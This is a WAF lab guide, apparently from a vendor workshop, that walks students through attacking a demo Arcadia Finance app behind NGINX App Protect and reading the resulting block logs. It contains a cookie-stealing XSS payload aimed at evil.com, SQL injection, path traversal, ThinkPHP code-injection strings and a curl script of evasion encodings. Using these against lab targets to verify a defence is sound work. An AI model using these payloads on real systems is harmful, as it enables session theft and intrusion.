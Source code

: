 Access the Application and Test the WAF
-----------------------------------------------------------

We knew that NAP provides protection against Layer 7 attacks, lets find out the security posture of our application.

Launch the Firefox browser and open Arcadia Finance app:

    #. In the Browser, open NGINX Ingress Controller URL to access Arcadia app (replace with the nginx-ingress EXTERNAL-IP): http://EXTERNAL-IP/
    #. Click on ``Login``
    #. Login with ``matt:ilovef5``
    #. You should see all the apps running (main, back, app2 and app3)


Now execute the same XSS attack that we did in Module1, observe the attack is blocked now and the user is provided with a support ID

- Execute a XSS attack by appending the ?a=<script> to the end of application URL, you should see the request is blocked and see the default Blocking page

        .. code-block:: html
            
                The requested URL was rejected. Please consult with your administrator.
            
                Your support ID is: 14609283746114744748
            
                [Go Back]
                
        .. note:: Did you notice the blocking page is similar to F5 ASM and Adv. WAF ?


.. image:: ./pictures/image18.png
   :align: center


- Execute the second attack y appending ?item='><script>document.location='http://evil.com/steal'+document.cookie</script> to the application URL, and observe the results

.. image:: ./pictures/image19.png
   :align: center
 

Feel free to execute any attacks you would like and observe the results.

Congratulations on securing your application!


**Here are some optional attacks you can try**

``SQL Injection - GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+``

``Remote File Include - GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch``

``Command Execution - GET /?hfsagrs=%2Fproc%2Fself%2Fenviron``

``HTTP Parser Attack - GET /?XDEBUG_SESSION_START=phpstorm``

``Predictable Resource Location Path Traversal - GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd``

``Cross Site Scripting - GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+``

``Informtion Leakage - GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw``

``HTTP Parser Attack Forceful Browsing - GET /dana-na/auth/url_default/welcome.cgi``

``Non-browser Client,Abuse of Functionality,Server Side Code Injection,HTTP Parser Attack - GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP``

``Cross Site Scripting - GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n"``


.. code-block :: bash

    #!/bin/bash
    echo "------------------------------"
    echo "Starting security testing..."
    echo "------------------------------"
    echo ""
    echo ""
    echo "---------------------------------------------------------------------"
    echo "Multiple decoding"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/three_decodin%2525252567.html'"
    echo "---------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/three_decodin%2525252567.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Apache Whitespace"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/tab_escaped%09.html'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/tab_escaped%09.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "IIS Backslashes"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/regular%5cescaped_back.html'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/regular%5cescaped_back.html"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Apache Whitespace"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/carriage_return_escaped%0d.html?x=1&y=2'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/carriage_return_escaped%0d.html?x=1&y=2"
    sleep 3
    echo "-----------------------------------------------------------------------------"
    echo "Cross site scripting"
    echo "Sending: curl -k 'http://app-protect-centos.arcadia-finance.io/%25%25252541PPDATA%25'"
    echo "-----------------------------------------------------------------------------"
    curl -k "http://app-protect-centos.arcadia-finance.io/%25%25252541PPDATA%25"    


Security Logging
#################

To verify that the F5 Application Protection WAF is logging security events, follow these steps:

Get the local syslog server POD: oc get all -o wide.

.. code-block:: yaml

        [lab-user@bastion app-protect-waf]$ oc get all -o wide
        NAME                           READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
        pod/app2-6bd5b4fbd7-6k8hd      1/1     Running   0          18h   10.128.2.47   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/app3-5699b95596-2s927      1/1     Running   0          18h   10.131.0.19   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>
        pod/backend-79c6bcf85c-k8m2s   1/1     Running   0          18h   10.128.2.45   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/main-584fc64db4-v8jf2      1/1     Running   0          18h   10.128.2.46   ip-10-0-169-7.us-east-2.compute.internal     <none>           <none>
        pod/syslog-bb47bd798-2vqps     1/1     Running   0          18h   10.131.0.20   ip-10-0-195-218.us-east-2.compute.internal   <none>           <none>

Examine the logging matching the support ID of `436359350950` 

.. code-block:: yaml

        [lab-user@bastion app-protect-waf]$ oc exec -it pod/syslog-bb47bd798-2vqps  -- cat /var/log/messages | grep 4363593509500748230
        Feb  8 18:53:09 my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz ASM:attack_type="SQL-Injection,Other Application Activity",blocking_exception_reason="N/A",date_time="2023-02-08 18:53:09",dest_port="80",ip_client="76.220.40.89",is_truncated="false",method="GET",policy_name="dataguard-alarm",protocol="HTTP",request_status="blocked",response_code="0",severity="Critical",sig_cves="N/A,N/A,N/A,N/A",sig_ids="200002553,200000073,200002736,200000082",sig_names="SQL-INJ integer field UNION (Parameter),SQL-INJ ""UNION SELECT"" (Parameter),SQL-INJ ' UNION SELECT (Parameter)...",sig_set_names="{SQL Injection Signatures},{SQL Injection Signatures},{SQL Injection Signatures}...",src_port="52787",sub_violations="N/A",support_id="4363593509500748230",threat_campaign_names="N/A",unit_hostname="my-nginx-ingress-controller-nginx-ingress-5577cfcf9f-glfcz",uri="/",violation_rating="5",vs_name="78-a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com:8-/",x_forwarded_for_header_value="N/A",outcome="REJECTED",outcome_reason="SECURITY_WAF_VIOLATION",violations="Attack signature detected,Violation Rating Threat detected",json_log="{""violations"":[{""enforcementState"":{""isBlocked"":true},""violation"":{""name"":""VIOL_RATING_THREAT""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ integer field UNION (Parameter)"",""signatureId"":200002553},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""UNION SELECT\"" (Parameter)"",""signatureId"":200000073},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ ' UNION SELECT (Parameter)"",""signatureId"":200002736},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}},{""enforcementState"":{""isBlocked"":false},""signature"":{""name"":""SQL-INJ \""SELECT FROM\"" (Parameter)"",""signatureId"":200000082},""violation"":{""name"":""VIOL_ATTACK_SIGNATURE""}}]}",violation_details="<?xml version='1.0' encoding='UTF-8'?><BAD_MSG><violation_masks><block>410000000000c00-3a03030c30000072-8000000000000000-0</block><alarm>2477f0ffcbbd0fea-befbf35cb000007e-8000000000000000-0</alarm><learn>0-0-0-0</learn><staging>0-0-0-0</staging></violation_masks><request-violations><violation><viol_index>42</viol_index><viol_name>VIOL_ATTACK_SIGNATURE</viol_name><context>parameter</context><parameter_data><value_error/><enforcement_level>global</enforcement_level><name>aGZzYWdycw==</name><auto_detected_type>alpha-numeric</auto_detected_type><value>LTEgdW5pb24gc2VsZWN0IHVzZXIscGFzc3dvcmQgZnJvbSB1c2VycyAtLSA=</value><location>query</location><param_name_pattern>*</param_name_pattern><staging>0</staging></parameter_data><staging>0</staging><sig_data><sig_id>200002553</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>15</length></kw_data></sig_data><sig_data><sig_id>200000073</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>8</offset><length>43</length></kw_data></sig_data><sig_data><sig_id>200002736</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>9</offset><length>14</length></kw_data></sig_data><sig_data><sig_id>200000082</sig_id><blocking_mask>2</blocking_mask><kw_data><buffer>aGZzYWdycz0tMSB1bmlvbiBzZWxlY3QgdXNlcixwYXNzd29yZCBmcm9tIHVzZXJzIC0tIA==</buffer><offset>17</offset><length>34</length></kw_data></sig_data></violation></request-violations></BAD_MSG>",bot_signature_name="N/A",bot_category="N/A",bot_anomalies="N/A",enforced_bot_anomalies="N/A",client_class="Browser",client_application="Chrome",client_application_version="109",request="GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+ HTTP/1.1\r\nHost: a4a7de86144454f7c9b3900612159b9a-1152717638.us-east-2.elb.amazonaws.com\r\nConnection: keep-alive\r\nUpgrade-Insecure-Requests: 1\r\nUser-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.0.0 Safari/537.36\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9\r\nAccept-Encoding: gzip, deflate\r\nAccept-Language: en-US,en;q=0.9\r\n\r\n",transport_protocol="HTTP/1.1"
        [lab-user@bastion app-protect-waf]$

        